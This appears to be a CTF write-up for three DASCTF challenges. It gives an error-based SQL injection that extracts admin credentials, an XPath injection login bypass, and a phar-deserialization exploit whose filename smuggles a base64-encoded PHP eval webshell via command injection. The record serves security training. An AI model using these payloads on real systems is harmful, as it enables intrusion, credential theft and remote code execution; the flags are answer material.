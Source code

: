 ## Web
### ez_cms
`?r=content&cid=1%20or%20updatexml(1,concat(0x7e,(select%20concat(user,0x3a,password)%20from%20manage)),1)`

![](attachments/Pasted%20image%2020230722105003.png)

![](attachments/Pasted%20image%2020230722104909.png)

通过发布下载实现任意文件读取
![](attachments/Pasted%20image%2020230722105721.png)

![](attachments/Pasted%20image%2020230722105710.png)


后面真的没有思路了用cms的下载管理来读文件不知道flag名字，用上传的方式想上传一个图片马然后用文件包含那个洞来做RCE但是上传会报错猜测是系统里面没有那个文件夹，最后是直接pearcmd文件包含来写马。

![](attachments/Pasted%20image%2020230725151857.png)


![](attachments/Pasted%20image%2020230725160451.png)

DASCTF{ae7b0d3b-fb3f-4fe8-ae61-5acd1486c460}

### ## MyPicDisk
username: admin'
password： admin'

登陆后要拦截响应包不然的话看不到会直接跳转，这里提示/y0u_cant_find_1t.zip 

![](attachments/Pasted%20image%2020230725161932.png)

index.php
```php
<?php
session_start();
error_reporting(0);
class FILE{
    public $filename;
    public $lasttime;
    public $size;
    public function __construct($filename){
        if (preg_match("/\//i", $filename)){
            throw new Error("hacker!");
        }
        $num = substr_count($filename, ".");
        if ($num != 1){
            throw new Error("hacker!");
        }
        if (!is_file($filename)){
            throw new Error("???");
        }
        $this->filename = $filename;
        $this->size = filesize($filename);
        $this->lasttime = filemtime($filename);
    }
    public function remove(){
        unlink($this->filename);
    }
    public function show()
    {
        echo "Filename: ". $this->filename. "  Last Modified Time: ".$this->lasttime. "  Filesize: ".$this->size."<br>";
    }
    public function __destruct(){
        system("ls -all ".$this->filename);
    }
}
?>
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>MyPicDisk</title>
</head>
<body>
<?php
if (!isset($_SESSION['user'])){
  echo '
<form method="POST">
    username：<input type="text" name="username"></p>
    password：<input type="password" name="password"></p>
    <input type="submit" value="登录" name="submit"></p>
</form>
';
  $xml = simplexml_load_file('/tmp/secret.xml');
  if($_POST['submit']){
    $username=$_POST['username'];
    $password=md5($_POST['password']);
    $x_query="/accounts/user[username='{$username}' and password='{$password}']";
    $result = $xml->xpath($x_query);
    if(count($result)==0){
      echo '登录失败';
    }else{
      $_SESSION['user'] = $username;
        echo "<script>alert('登录成功!');location.href='/index.php';</script>";
    }
  }
}
else{
    if ($_SESSION['user'] !== 'admin') {
        echo "<script>alert('you are not admin!!!!!');</script>";
        unset($_SESSION['user']);
        echo "<script>location.href='/index.php';</script>";
    }
  echo "<!-- /y0u_cant_find_1t.zip -->";
  if (!$_GET['file']) {
    foreach (scandir(".") as $filename) {
      if (preg_match("/.(jpg|jpeg|gif|png|bmp)$/i", $filename)) {
        echo "<a href='index.php/?file=" . $filename . "'>" . $filename . "</a><br>";
      }
    }
    echo '
  <form action="index.php" method="post" enctype="multipart/form-data">
  选择图片：<input type="file" name="file" id="">
  <input type="submit" value="上传"></form>
  ';
    if ($_FILES['file']) {
      $filename = $_FILES['file']['name'];
      if (!preg_match("/.(jpg|jpeg|gif|png|bmp)$/i", $filename)) {
        die("hacker!");
      }
      if (move_uploaded_file($_FILES['file']['tmp_name'], $filename)) {
          echo "<script>alert('图片上传成功!');location.href='/index.php';</script>";
      } else {
        die('failed');
      }
    }
  }
  else{
      $filename = $_GET['file'];
      if ($_GET['todo'] === "md5"){
          echo md5_file($filename);
      }
      else {
          $file = new FILE($filename);
          if ($_GET['todo'] !== "remove" && $_GET['todo'] !== "show") {
              echo "<img src='../" . $filename . "'><br>";
              echo "<a href='../index.php/?file=" . $filename . "&&todo=remove'>remove</a><br>";
              echo "<a href='../index.php/?file=" . $filename . "&&todo=show'>show</a><br>";
          } else if ($_GET['todo'] === "remove") {
              $file->remove();
              echo "<script>alert('图片已删除!');location.href='/index.php';</script>";
          } else if ($_GET['todo'] === "show") {
              $file->show();
          }
      }
  }
}
?>
</body>
</html>
```

写phar包

```php
<?php
class FILE{
    public $filename=";echo PD9waHAgcGhwaW5mbygpO2V2YWwoJF9QT1NUWzFdKTs/Pg==|base64 -d|bash -i> shell.php";
    public $lasttime;
    public $size;
    public function remove(){
        unlink($this->filename);
    }
    public function show()
    {
        echo "Filename: ". $this->filename. "  Last Modified Time: ".$this->lasttime. "  Filesize: ".$this->size."<br>";
    }
}


phpinfo();
$a = new FILE();

$phar=new phar('phar.phar',0);//后缀名必须为phar
$phar->startBuffering();//开始缓冲 Phar 写操作
$phar->setMetadata($a);//自定义的meta-data存入manifest
$phar->setStub("<?php __HALT_COMPILER();?>");//设置stub，stub是一个简单的php文件。PHP通过stub识别一个文件为PHAR文件，可以利用这点绕过文件上传检测
$phar->addFromString("test.txt","test");//添加要压缩的文件
$phar->stopBuffering();//停止缓冲对 Phar 归档的写入请求，并将更改保存到磁盘
?>
```


todo 为md5时触发 md5_file()
加上上面的File类的命令拼接RCE大概考点是phar反序列化

自己写个提交页面来构造表单

![](attachments/Pasted%20image%2020230725170616.png)

成功写入

![](attachments/Pasted%20image%2020230725171714.png)

但是实际访问中发先shell.php存在但是无显示
### ezFat32
给了个镜像用autopsy直接提了一个bmp出来

![](attachments/f0000001.bmp)

剩余空间里面由hint提示sha256解压
用sha256值去解压缩包的密码解开后就是flag

![](attachments/Pasted%20image%2020230724153536.png)

1bec3826d44f706d33e8cc4bc230d3113d0198261ff1cd251294dbdebabb0af5

dasctf{Yep_Y0u_F1nd_The_F1ag!Suff3r_t0_rec0ver}
